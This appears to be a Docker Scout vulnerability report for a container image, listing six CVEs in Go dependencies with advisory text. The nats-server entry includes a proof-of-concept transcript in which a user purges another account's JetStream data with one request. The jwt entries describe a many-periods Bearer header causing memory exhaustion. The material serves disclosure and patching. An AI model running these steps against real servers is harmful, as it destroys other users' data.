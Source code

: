 ```yaml
---
hide_table_of_contents: true
---
```


<table>
<tr><td>digest</td><td><code>sha256:32e65f98204ed9c830726736d7225da994b1cb5280b482a934525c70bccc8fcd</code></td><tr><tr><td>vulnerabilities</td><td><img alt="critical: 1" src="https://img.shields.io/badge/critical-1-8b1924"/> <img alt="high: 3" src="https://img.shields.io/badge/high-3-e25d68"/> <img alt="medium: 2" src="https://img.shields.io/badge/medium-2-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/low-0-lightgrey"/> <!-- unspecified: 0 --></td></tr>
<tr><td>platform</td><td>linux/arm64</td></tr>
<tr><td>size</td><td>40 MB</td></tr>
<tr><td>packages</td><td>239</td></tr>
</table>
</details></table>
</details>

<table>
<tr><td valign="top">
<details><summary><img alt="critical: 1" src="https://img.shields.io/badge/C-1-8b1924"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/nats-io/nats-server/v2</strong> <code>2.10.16</code> (golang)</summary>

<small><code>pkg:golang/github.com/nats-io/nats-server@2.10.16#v2</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30215?s=github&n=v2&ns=github.com%2Fnats-io%2Fnats-server&t=golang&vr=%3E%3D2.2.0%2C%3C2.10.27"><img alt="critical 9.6: CVE--2025--30215" src="https://img.shields.io/badge/CVE--2025--30215-lightgrey?label=critical%209.6&labelColor=8b1924"/></a> <i>Improper Authorization</i>

<table>
<tr><td>Affected range</td><td><code>>=2.2.0<br/><2.10.27</code></td></tr>
<tr><td>Fixed version</td><td><code>2.10.27</code></td></tr>
<tr><td>CVSS Score</td><td><code>9.6</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:N/I:H/A:H</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.032%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>8th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

## Advisory

The management of JetStream assets happens with messages in the `$JS.` subject namespace in the system account; this is partially exposed into regular accounts to allow account holders to manage their assets.

Some of the JS API requests were missing access controls, allowing any user with JS management permissions in any account to perform certain administrative actions on any JS asset in any other account. At least one of the unprotected APIs allows for data destruction. None of the affected APIs allow disclosing stream contents.

### Affected versions

NATS Server:
 * Version 2 from v2.2.0 onwards, prior to v2.11.1 or v2.10.27

-----

## Original Report

(Lightly edited to confirm some supposition and in the summary to use past tense)

### Summary

nats-server did not include authorization checks on 4 separate admin-level JetStream APIs: account purge, server remove,  account stream move, and  account stream cancel-move.

In all cases, APIs are not properly restricted to system-account users. Instead, _any_ authorized user can execute the APIs, including across account boundaries, as long as the current user merely has permission to publish on `$JS.>`.

Only the first seems to be of highest severity. All are included in this single report as they seem likely to have the same underlying root cause.

Reproduction of the `ACCOUNT.PURGE` case is below. The others are like it.


### Details & Impact

#### Issue 1: `$JS.API.ACCOUNT.PURGE.*`

Any user may perform an account purge of any other account (including their own).

Risk: total destruction of Jetstream configuration and data.


#### Issue 2: `$JS.API.SERVER.REMOVE`

Any user may remove servers from Jetstream clusters.

Risk: Loss of data redundancy, reduction of service quality.


#### Issue 3: `$JS.API.ACCOUNT.STREAM.MOVE.*.*` and `CANCEL_MOVE`

Any user may cause streams to be moved between servers.

Risk: loss of control of data provenance, reduced service quality during move, enumeration of account and/or stream names.

Similarly for `$JS.API.ACCOUNT.STREAM.CANCEL_MOVE.*.*`


#### Mitigations

It appears that users without permission to publish on `$JS.API.ACCOUNT.>` or `$JS.API.SERVER.>` are unable to execute the above APIs.

Unfortunately, in many configurations, an 'admin' user for a single account will be given permissions for `$JS.>` (or simply `>`), which allows the improper access to the system APIs above.


#### Scope of impact

Issues 1 and 3 both cross boundaries between accounts, violating promised account isolation. All 3 allow system level access to non-system account users.

While I cannot speak to what authz configurations are actually found in the wild, per the discussion in Mitigations above, it seems likely that at least some configurations are vulnerable.


#### Additional notes

It appears that `$JS.API.META.LEADER.STEPDOWN` does properly restrict to system account users. As such, this may be a pattern for how to properly authorize these other APIs.



### PoC

#### Environment

Tested with:
nats-server 2.10.26 (installed via homebrew)
nats cli 0.1.6 (installed via homebrew)
macOS 13.7.4


#### Reproduction steps

```
$ nats-server --version
nats-server: v2.10.26

$ nats --version
0.1.6

$ cat nats-server.conf
listen: '0.0.0.0:4233'
jetstream: {
  store_dir: './tmp'
}
accounts: {
  '$SYS': {
    users: [{user: 'sys', password: 'sys'}]
  },
  'TEST': {
    jetstream: true,
    users: [{user: 'a', password: 'a'}]
  },
  'TEST2': {
    jetstream: true,
    users: [{user: 'b', password: 'b'}]
  }
}

$ nats-server -c ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.494663 [INF] Using configuration file: ./nats-server.conf
...
[90608] 2025/03/02 11:43:18.496395 [INF] Listening for client connections on 0.0.0.0:4233
...

# Authentication is effectively enabled by the server:
$ nats -s nats://localhost:4233 account info
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user sys --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user a --password wrong
nats: error: setup failed: nats: Authorization Violation

$ nats -s nats://localhost:4233 account info --user b --password wrong
nats: error: setup failed: nats: Authorization Violation

# Valid credentials work, and users properly matched to accounts:
$ nats -s nats://localhost:4233 account info --user sys --password sys
Account Information
                      User: sys
                   Account: $SYS
...

$ nats -s nats://localhost:4233 account info --user a --password a
Account Information
                           User: a
                        Account: TEST
...

$ nats -s nats://localhost:4233 account info --user b --password b
Account Information
                           User: b
                        Account: TEST2
...

# Add a stream and messages to account TEST (user 'a'):
$ nats -s nats://localhost:4233 --user a --password a stream add stream1 --subjects s1 --storage file --defaults
Stream stream1 was created
...

$ nats -s nats://localhost:4233 --user a --password a publish s1 --count 3 "msg {{Count}}"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"
11:50:05 Published 5 bytes to "s1"

# Messages are correctly persisted on account TEST, and not on TEST2:
$ nats -s nats://localhost:4233 --user a --password a stream ls
╭───────────────────────────────────────────────────────────────────────────────╮
│                                    Streams                                    │
├─────────┬─────────────┬─────────────────────┬──────────┬───────┬──────────────┤
│ Name    │ Description │ Created             │ Messages │ Size  │ Last Message │
├─────────┼─────────────┼─────────────────────┼──────────┼───────┼──────────────┤
│ stream1 │             │ 2025-03-02 11:48:49 │ 3        │ 111 B │ 46.01s       │
╰─────────┴─────────────┴─────────────────────┴──────────┴───────┴──────────────╯

$ nats -s nats://localhost:4233 --user b --password b stream ls
No Streams defined

$ du -h tmp/jetstream
  0B	tmp/jetstream/TEST/streams/stream1/obs
8.0K	tmp/jetstream/TEST/streams/stream1/msgs
 16K	tmp/jetstream/TEST/streams/stream1
 16K	tmp/jetstream/TEST/streams
 16K	tmp/jetstream/TEST
 16K	tmp/jetstream

# User b (account TEST2) sends a PURGE command for account TEST (user a).
# According to the source comments, user b shouldn't even be able to purge it's own account, much less another one.
$ nats -s nats://localhost:4233 --user b --password b request '$JS.API.ACCOUNT.PURGE.TEST' ''
11:54:50 Sending request on "$JS.API.ACCOUNT.PURGE.TEST"
11:54:50 Received with rtt 1.528042ms
{"type":"io.nats.jetstream.api.v1.account_purge_response","initiated":true}

# From nats-server in response to the purge request:
[90608] 2025/03/02 11:54:50.277144 [INF] Purge request for account TEST (streams: 1, hasAccount: true)

# And indeed, the stream data is gone on account TEST:
$ du -h tmp/jetstream
  0B	tmp/jetstream

$ nats -s nats://localhost:4233 --user a --password a stream ls
No Streams defined

```

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/oauth2</strong> <code>0.26.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/oauth2@0.26.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22868?s=golang&n=oauth2&ns=golang.org%2Fx&t=golang&vr=%3C0.27.0"><img alt="high : CVE--2025--22868" src="https://img.shields.io/badge/CVE--2025--22868-lightgrey?label=high%20&labelColor=e25d68"/></a> 

<table>
<tr><td>Affected range</td><td><code>&lt;0.27.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.27.0</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.048%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>15th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

An attacker can pass a malicious malformed token which causes unexpected memory to be consumed during parsing.

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v4</strong> <code>4.5.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@4.5.1#v4</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v4&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3C4.5.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;4.5.2</code></td></tr>
<tr><td>Fixed version</td><td><code>4.5.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 1" src="https://img.shields.io/badge/H-1-e25d68"/> <img alt="medium: 0" src="https://img.shields.io/badge/M-0-lightgrey"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>github.com/golang-jwt/jwt/v5</strong> <code>5.2.1</code> (golang)</summary>

<small><code>pkg:golang/github.com/golang-jwt/jwt@5.2.1#v5</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-30204?s=github&n=v5&ns=github.com%2Fgolang-jwt%2Fjwt&t=golang&vr=%3E%3D5.0.0-rc.1%2C%3C5.2.2"><img alt="high 8.7: CVE--2025--30204" src="https://img.shields.io/badge/CVE--2025--30204-lightgrey?label=high%208.7&labelColor=e25d68"/></a> <i>Asymmetric Resource Consumption (Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>>=5.0.0-rc.1<br/><5.2.2</code></td></tr>
<tr><td>Fixed version</td><td><code>5.2.2</code></td></tr>
<tr><td>CVSS Score</td><td><code>8.7</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:N/VC:N/VI:N/VA:H/SC:N/SI:N/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.024%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>5th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Summary

Function [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) currently splits (via a call to [strings.Split](https://pkg.go.dev/strings#Split)) its argument (which is untrusted data) on periods.

As a result, in the face of a malicious request whose _Authorization_ header consists of `Bearer ` followed by many period characters, a call to that function incurs allocations to the tune of O(n) bytes (where n stands for the length of the function's argument), with a constant factor of about 16. Relevant weakness: [CWE-405: Asymmetric Resource Consumption (Amplification)](https://cwe.mitre.org/data/definitions/405.html)

### Details

See [`parse.ParseUnverified`](https://github.com/golang-jwt/jwt/blob/c035977d9e11c351f4c05dfeae193923cbab49ee/parser.go#L138-L139) 

### Impact

Excessive memory allocation

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>golang.org/x/net</strong> <code>0.37.0</code> (golang)</summary>

<small><code>pkg:golang/golang.org/x/net@0.37.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2025-22872?s=github&n=net&ns=golang.org%2Fx&t=golang&vr=%3C0.38.0"><img alt="medium 5.3: CVE--2025--22872" src="https://img.shields.io/badge/CVE--2025--22872-lightgrey?label=medium%205.3&labelColor=fbb552"/></a> <i>Improper Neutralization of Input During Web Page Generation ('Cross-site Scripting')</i>

<table>
<tr><td>Affected range</td><td><code>&lt;0.38.0</code></td></tr>
<tr><td>Fixed version</td><td><code>0.38.0</code></td></tr>
<tr><td>CVSS Score</td><td><code>5.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:4.0/AV:N/AC:L/AT:N/PR:N/UI:P/VC:N/VI:N/VA:N/SC:L/SI:L/SA:N</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.016%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>2nd percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

The tokenizer incorrectly interprets tags with unquoted attribute values that end with a solidus character (/) as self-closing. When directly using Tokenizer, this can result in such tags incorrectly being marked as self-closing, and when using the Parse functions, this can result in content following such tags as being placed in the wrong scope during DOM construction, but only when tags are in foreign content (e.g. <math>, <svg>, etc contexts).

</blockquote>
</details>
</details></td></tr>

<tr><td valign="top">
<details><summary><img alt="critical: 0" src="https://img.shields.io/badge/C-0-lightgrey"/> <img alt="high: 0" src="https://img.shields.io/badge/H-0-lightgrey"/> <img alt="medium: 1" src="https://img.shields.io/badge/M-1-fbb552"/> <img alt="low: 0" src="https://img.shields.io/badge/L-0-lightgrey"/> <!-- unspecified: 0 --><strong>gopkg.in/square/go-jose.v2</strong> <code>2.6.0</code> (golang)</summary>

<small><code>pkg:golang/gopkg.in/square/go-jose.v2@2.6.0</code></small><br/>
<a href="https://scout.docker.com/v/CVE-2024-28180?s=github&n=go-jose.v2&ns=gopkg.in%2Fsquare&t=golang&vr=%3C%3D2.6.0"><img alt="medium 4.3: CVE--2024--28180" src="https://img.shields.io/badge/CVE--2024--28180-lightgrey?label=medium%204.3&labelColor=fbb552"/></a> <i>Improper Handling of Highly Compressed Data (Data Amplification)</i>

<table>
<tr><td>Affected range</td><td><code>&lt;=2.6.0</code></td></tr>
<tr><td>Fixed version</td><td><strong>Not Fixed</strong></td></tr>
<tr><td>CVSS Score</td><td><code>4.3</code></td></tr>
<tr><td>CVSS Vector</td><td><code>CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:N/A:L</code></td></tr>
<tr><td>EPSS Score</td><td><code>0.247%</code></td></tr>
<tr><td>EPSS Percentile</td><td><code>48th percentile</code></td></tr>
</table>

<details><summary>Description</summary>
<blockquote>

### Impact
An attacker could send a JWE containing compressed data that used large amounts of memory and CPU when decompressed by Decrypt or DecryptMulti. Those functions now return an error if the decompressed data would exceed 250kB or 10x the compressed size (whichever is larger). Thanks to Enze Wang@Alioth and Jianjun Chen@Zhongguancun Lab (@zer0yu and @chenjj) for reporting.

### Patches
The problem is fixed in the following packages and versions:
- github.com/go-jose/go-jose/v4 version 4.0.1
- github.com/go-jose/go-jose/v3 version 3.0.3
- gopkg.in/go-jose/go-jose.v2 version 2.6.3

The problem will not be fixed in the following package because the package is archived:
- gopkg.in/square/go-jose.v2

</blockquote>
</details>
</details></td></tr>
</table>

